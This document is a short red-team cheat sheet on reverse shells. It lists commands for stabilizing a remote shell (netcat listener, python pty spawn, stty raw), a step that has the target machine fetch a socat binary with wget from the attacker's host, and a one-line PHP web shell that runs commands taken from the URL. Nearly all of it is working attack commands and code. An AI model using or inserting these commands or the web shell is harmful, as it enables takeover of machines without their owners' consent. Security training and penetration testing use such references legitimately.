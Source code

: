 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
## Stabilization
### TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

### Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
### Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \{local IP}/socat -O /tmp/socat
```

## Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali
